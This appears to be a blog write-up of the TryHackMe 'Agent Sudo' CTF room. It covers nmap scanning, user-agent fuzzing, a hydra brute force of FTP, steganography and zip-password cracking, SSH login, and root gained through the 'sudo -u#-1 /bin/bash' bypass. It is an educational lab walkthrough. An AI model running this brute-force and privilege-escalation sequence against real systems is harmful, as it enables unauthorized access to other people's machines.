 ```yaml
---
layout: post
title: Agent sudo writeup
subtitle: You found a secret server located under the deep sea.
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/agent-sudo/editlogo.png
share-img: /assets/img/path.jpg
tags: [ctf,tryhackme, writeup, agentsudo]
---
```


Welcome to another THM exclusive CTF room. Your task is simple, capture the flags just like the other CTF room. Have Fun!


## Here is a machine information

| Title | Agent Sudo | 
| :------ |:--- | 
| Difficulty | Easy | 
| Point | 400 |
| Maker | DesKel |
| Infor | This is a free room, which means anyone can deploy virtual machines in the room  | 


## NMAP
We have an IP as usual, and we can start with the basic nmap scan

```bash
nmap -sC -sV -A machine-ip 
```
<em>

-A : Os detection, version detection, traceroute

-sS : TCP syn scan ( for faster scan, needs root privilege )

-o : For storing output in file
</em>

After finishing scan with nmap, we got the result as tcp (80) is open and more interesting directory was found is *.git*

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-26 03:01 EDT
Nmap scan report for 10.10.100.203
Host is up (0.24s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.90 seconds
```

## Enumeration

Accessing to port 80 and got it:

![web80](/leiz95/assets/img/agent-sudo/web.png)

Now we need to change user agent. there is few ways to do as using agent switch extension or burp suite to edit request.
I am using burp to do it. I change User agent to agent R and got another hint:

![web80](/leiz95/assets/img/agent-sudo/web1.png)

That we are one of in 25 employees, So we can use burp intruder to manipulate user agent with 26 character.

After running burp intruder with 26 characters from A-Z payload, we was redirect to */agent_C_attention.php* with agent C.

In */agent_C_attention.php*

![web80](/leiz95/assets/img/agent-sudo/web2.png)

## Hash cracking and brute-force

Now we have the user is **chris**. As we saw the ftp open in our nmap. We try brute force password for **chris** via hydra:

```
hydra -l chris -P password-list 10.10.10.203 ftp
```
<em>

-l : username 

-P : password list is used to brute force

-o : For storing output in file
</em>

I am using rockyou.txt as password-list. Waiting for brute force:

![web80](/leiz95/assets/img/agent-sudo/web3.png)

we got password for **chris** user.

Then we access to mnachine via ftp of chris user. 

list all files that chris can view:

![web80](/leiz95/assets/img/agent-sudo/web4.png)

In order to get all files, we can use: 

``` mget . ```

cat To_AgentJ.txt:

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C

```
Firstly, i can try steghide to check the jpg image. let see what is hide inside image.

``` steghide info cute-alien.jpg```

Result: 

![web80](/leiz95/assets/img/agent-sudo/web5.png)

This require password phrase as saw above.
Let's check cutie.png with binwalk. We got some hidden zip file inside file cuite.png

![web80](/leiz95/assets/img/agent-sudo/web6.png)

Extract the cutie.pnd and got 8702.zip file. But it was lockded by password. We need to crack password. After googling how to crack password for zip file.

I get amount of way. One way that i will use and also from the hint. There is two steps to crack it.

``` zip2john 8702.zip > zip.hash```

``` john zip.hash ```

Then archive the password:

![web80](/leiz95/assets/img/agent-sudo/web7.png)

Open zip file and enter password. We have message: 

![web80](/leiz95/assets/img/agent-sudo/web8.png)

Send to who we just got the encode person. Don't worry, we have the https://gchq.github.io/CyberChef/ to check or reverse it. After time to find what is type of encoded. I found this is base64 encoded. 

Now we have password for steghide in a few steps ago. Let's extract jpg image.

``` steghide --extract -sf cute-alien.jpg```

Inside message.txt:

![web80](/leiz95/assets/img/agent-sudo/web9.png)

## Capture the user flag

Now we have the credentials to access the attack machine. Let's using ssh to access:

``` ssh user@machine-ip ```

Using cat to get flag.

``` cat user_flag.txt ```


And the other is an image. We need to find out where is the image from. You can use the command below to download the image from the machine 

``` scp user@machine-ip:filename /localdir/ ```

Downloaded successfully, 

## Privilege escalation

In order to getting root. First thing, i check sudoer file by running command:

``` sudo -l ```

![web80](/leiz95/assets/img/agent-sudo/web10.png)


It looks like our user is not allowed to run /bin/bash as root since we have a !root. However, this looks weird as the first all means our user can run /bin/bash as any user. This is interesting, perhaps we can find a way to exploit this. 

Google about it: 

![web80](/leiz95/assets/img/agent-sudo/web11.png)

We got the cve and also exploitdb url.

Read throung the exploitDB and Run cmd to get root:

``` sudo -u#-1 /bin/bash ```

The flag was sitting inside root directory.

![web80](/leiz95/assets/img/agent-sudo/web12.png)

Finally we got all plags. Happy hacking!!!
